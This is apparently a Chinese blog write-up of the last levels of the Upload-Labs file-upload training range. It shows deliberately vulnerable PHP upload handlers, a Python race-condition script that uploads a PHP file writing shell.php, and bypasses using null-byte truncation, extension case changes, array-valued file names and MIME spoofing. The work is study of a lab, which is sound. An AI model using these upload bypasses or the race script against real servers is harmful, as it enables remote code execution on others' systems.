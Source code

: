 ```yaml
---
title: Upload-Labs的最后几道题
categories: ['DROPS']
tags: ['文件上传漏洞']
cover: 'https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201119174619.jpg'
date: 2020-11-19 08:47:19
---
```



## Pass-17

​	（windows环境，php版本5.2.17，题号是18题）

源码：

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

​	思路和前面的一样，获取文件信息，移动文件到**upload**文件夹，第12行使用了白名单验证，多了第14行的`rename`函数，看名称就是重命名的函数，所以我们可以在重命名之前访问我们上传的文件，所以这题用到了**上传竞争**，使用`python`脚本不断的向服务器上传文件，然后访问上传的文件，上传的文件中有一句代码`<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>`这段代码执行以后，会创建一个名为`shell.php`里面有一句`<?php phpinfo();?>`的文件。

​	脚本代码

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://upload-labs/Pass-18/index.php"   #上传页面
    geturl="http://upload-labs/upload/233.php"	 #访问上传文件
    file={'upload_file':('233.php',"<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print ("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```

​	第一次用python的我在这里知道了`pip`。这道题因为要不断的上传和访问文件，所以对在线靶场不友好，所以才选择了本地环境解题。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119090033.png)



## Pass-18（失手）

​	18题失手了没有思路，如果使用`include.php`文件包含的话还可以，看了看网上大部分的博客都是敷敷衍衍过去的，找到了一篇稍微有点思路的，使用的是`apache2.2.x的解析漏洞`，这个漏洞的思路就是，apache服务器在解析有多个后缀名的文件时，从最后一个开始向前扫描，如果不认识就跳过，直到遇到一个认识的文件后缀，就把这个文件以这个能识别的后缀解析。

[Apache文件解析漏洞](https://blog.csdn.net/qq_32434307/article/details/79480316)

[apache httpd多后缀解析漏洞复现](https://www.cnblogs.com/yuzly/p/11226377.html)

​	源码中还有一个可以突破的点是同样使用了**重命名函数**，所以应该还是可以使用竞争上传访问得到，但是使用了白名单验证，我实在是没招了所以~~先摸为敬~~。



## Pass-19

（windows环境，php5.2.17，magic_quotes_gpc=Off）

源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	源码第七行使用了**POST**来接受文件的命名，前面有类似题的是使用了**0x00截断上传**，后面也同样是`move_uploaded_file`移动文件的函数，还使用了黑名单验证，方法就很明确，使用**截断上传**。别忘了截断上传需要的特定条件：php版本需要低于`5.3.29`、`magic_quotes_gpc`需要为关闭状态。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164220.png)

​	同样是命名为`phpa`方便在十六进制表里修改为`00`

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119162729.png)

​	打开图片把url链接`http://upload-labs/upload/upload-19.php�`修改一下即可。完工

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119164458.png)

​	其实这道题还有一个思路，因为题目使用了**黑名单验证**，分析源码没有设置大小写过滤，所以也可以使用大小写方法通过如`Php`，不演示了。



## Pass-20

（LInux环境，php7.2.21）

源码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

​	这道题使用了`MIME`验证和白名单验证。先看第10行使用了`三目运算符`判断`$_POST['save_name']`是否为空，若为空则执行`:`前获取上传文件的名称，若不为空则获取POST中的`save_name`。第11行使用了`is_array`函数判断是否是一个数组，然后使用`explode`截断文件名转换小写并返回数组。也就是说，如果我们POST中的`save_name`是个数组的就可以跳过11行的判断。15行使用`end`函数获取数组中的最后一个元素用于后缀验证。20行把文件名进行拼接：数组**第一个**元素+数组元素**总数-1**的那个元素。

所以我们可以构造一个这样的数组用于绕过：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119170734.png)

​	数组[2]用于绕过白名单，文件名为：`数组[0].数组[1]`，但是数组[1]是空的所以只剩下`数组[0].`（后面有个点）

​	别忘了还要绕过**MIME**

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172340.png)

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201119172415.png)

完工

## 最后

​	Upload labs的20道题大部分完成了，有两道题没完成，但是也学到了不少东西，这些天再抽空写一个总结吧。射射观看。